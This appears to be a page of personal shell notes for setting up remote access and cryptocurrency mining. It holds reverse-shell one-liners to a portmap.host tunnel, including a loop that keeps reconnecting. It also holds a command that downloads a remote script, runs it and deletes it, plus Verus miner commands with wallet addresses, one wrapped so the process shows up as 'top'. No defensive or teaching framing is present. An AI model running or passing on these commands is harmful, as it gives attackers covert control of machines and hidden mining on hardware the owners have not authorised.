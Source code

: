 fuser -k 4055/tcp
npm i dotenv (install modul dotenv di node)
# instal opn linux
apt-get install openvpn
openvpn --client --config file.ovpn
sh -i >& /dev/tcp/evaldana-36710.portmap.host/22703 0>&1
while true; do bash -c 'bash -i >& /dev/tcp/evaldana-36710.portmap.host/22703 0>&1'; sleep 10; done
evaldana-36710.portmap.host:22703 => 4050
#### dependence ccmine

apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential

wget https://raw.githubusercontent.com/hudahadoh/vs/main/vs.sh && chmod +x vs.sh && ./vs.sh && rm vs.sh && cd /usr/bin

./bhmax -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.py1 -p x -t 1
werkol-28870.portmap.host:28870 => 4052
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.ZX5 -p x -t 85
./pythonc -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://werkol-28870.portmap.host:28870  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.l4 -p x -t 1


### git clone --single-branch -b  Verus2.2gpu https://github.com/monkins1010/ccminer.git
git clone --single-branch -b Verus2.2gpu https://github.com/monkins1010/ccminer.git (gpu nvidia)
git clone --single-branch -b Verus2.2 https://github.com/monkins1010/ccminer.git  (cpu only)

cd ccminer

chmod +x build.sh

chmod +x configure.sh

chmod +x autogen.sh

./build.sh

./ccminer  -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RRT2bJnHu9n1Qzh4crRZZKFoX3HXrtTDer.colabs3  -p x  -t 4
